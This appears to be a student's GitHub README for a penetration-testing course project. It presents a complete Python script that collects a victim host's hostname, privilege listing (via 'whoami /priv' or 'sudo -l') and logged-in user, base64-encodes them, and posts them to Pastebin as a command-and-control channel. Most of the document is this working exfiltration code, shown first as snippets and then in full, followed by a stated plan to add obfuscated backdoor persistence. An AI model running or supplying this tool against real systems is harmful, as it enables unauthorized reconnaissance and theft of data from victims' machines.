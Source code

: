# Pastebin API Experiment as Post-Exploitation C2

## The Background

This project has been done to complete a GLS University Task which was given in
_Programming for Penetration Testing_.

Created by myself,
Felix Alexander (2301859253)


The project itself has a functionality to forward all the basic information data that can
be retrieved from the `victim host` to `Pastebin` with its own API.

Prerequisites:
* API Developer Key
* Pastebin Username
* Pastebin Password
* Arbitrary Data/Content

## Snippets Code Review

The following script is required to get OS Info of the victim, whether it's `Windows` or `Linux` or
`OS X`, with a little help from `sys` Python's module.

```python
def osinfo():
    poss_plat = {
      'linux':'Linux',
      'linux1':'Linux',
      'linux2':'Linux',
      'win32':'Windows',
      'cygwin':'Windows',
      'msys':'Windows',
      'darwin':'OS X',
      'os2':'OS X',
      'os2emx':'OS X'
    }
    return poss_plat[sys.platform]
  ```
  
  In order to retrieve what data that can be retrieved, we need to know how the desired data will be parsed
  from each of unique victim OS. Therefore, there's an OS classification for executing each command.
  The following snippets will do:
  
  ```python
  def execute_cmd(cmd):
      try:
        cmd = cmd.decode()
      except (UnicodeDecodeError, AttributeError):
        pass
      if cmd == "sudo -l":
        prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
        out, err = prc.communicate()
        if re.search("incorrect",err.decode(),re.IGNORECASE):
          return b"Unprivileged / Not sudoers"
      prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
      out, err = prc.communicate()
      return out


def info_gathering(os):
	command = []
	if os == "Windows":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + execute_cmd('hostname') + b"\n")
		command.append(b"Priv:\n" + execute_cmd('whoami /priv') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
	elif os == "Linux" or os == "OS X":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + socket.gethostname().encode() + b"\n")
		command.append(b"Priv:\n" + execute_cmd('sudo -l') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
```

After the desired data has been retrieved, it'll be encoded as Base64 Byte-Objects Strings, which will be forwarder to the
API.

## Pastebin API

The following script will handle the pastebin auth and the upload process, where all the prerequisites data will be processed as
JSON Data to be requested to the API Post URL.

```python
def pastebin_upload(tl, data):
      name = '' #fill your pastebin username
      pw = '' #fill your pastebin password
      api_key = ''  #fill your api dev key (from tab API)
      auth = 'https://pastebin.com/api/api_login.php'
      auth_json = {
        'api_dev_key':api_key,
        'api_user_name':name,
        'api_user_password': pw
      }
      r = requests.post(auth, data=auth_json)
      api_user_key = r.text
      paste_post = 'https://pastebin.com/api/api_post.php'
      paste_json = {
        'api_paste_name':tl,
        'api_paste_code':data.decode(),
        'api_dev_key':api_key,
        'api_user_key':api_user_key,
        'api_option':'paste',
        'api_paste_private':0
      }
      r = requests.post(paste_post, data=paste_json)
      try:
        print("Retrieving the link!")
        print(r.text)
      except:
        print("Failed")
```
Note that, there are 3 values that need to be filled (crucial). The auth URL is stored in the `auth` variable, and the
API Url which will be processed to receive the post data is stored in `paste-post` variable.

## TBA

I'm planning on adding some persistence mode that will assign a backdoor on each unique OS with obfuscated
Python bytecodes so that the attacker can still connect to the OS Victim.


## Full Script

```python
import sys,socket,re
import requests,base64
import subprocess,getpass

def execute_cmd(cmd):
	try:
		cmd = cmd.decode()
	except (UnicodeDecodeError, AttributeError):
		pass
	if cmd == "sudo -l":
		prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
		out, err = prc.communicate()
		if re.search("incorrect",err.decode(),re.IGNORECASE):
			return b"Unprivileged / Not sudoers"
	prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
	out, err = prc.communicate()
	return out


def info_gathering(os):
	command = []
	if os == "Windows":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + execute_cmd('hostname') + b"\n")
		command.append(b"Priv:\n" + execute_cmd('whoami /priv') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
	elif os == "Linux" or os == "OS X":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + socket.gethostname().encode() + b"\n")
		command.append(b"Priv:\n" + execute_cmd('sudo -l') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
		
def osinfo():
	poss_plat = {
		'linux':'Linux',
		'linux1':'Linux',
		'linux2':'Linux',
		'win32':'Windows',
		'cygwin':'Windows',
		'msys':'Windows',
		'darwin':'OS X',
		'os2':'OS X',
		'os2emx':'OS X'
	}
	return poss_plat[sys.platform]

def pastebin_upload(tl, data):
	name = '' #fill your pastebin username
	pw = '' #fill your pastebin password
	api_key = ''  #fill your api dev key (from tab API)
	auth = 'https://pastebin.com/api/api_login.php'
	auth_json = {
		'api_dev_key':api_key,
		'api_user_name':name,
		'api_user_password': pw
	}
	r = requests.post(auth, data=auth_json)
	api_user_key = r.text
	paste_post = 'https://pastebin.com/api/api_post.php'
	paste_json = {
		'api_paste_name':tl,
		'api_paste_code':data.decode(),
		'api_dev_key':api_key,
		'api_user_key':api_user_key,
		'api_option':'paste',
		'api_paste_private':0
	}
	r = requests.post(paste_post, data=paste_json)
	try:
		print("Retrieving the link!")
		print(r.text)
	except:
		print("Failed")

print("Processing information . . .")
data_post = info_gathering(osinfo())
print("Uploading paste . . .")
pastebin_upload("secret",data_post)
```

## References
https://www.amazon.com/Black-Hat-Python-2nd-Programming/dp/1718501129 (pg. 146)
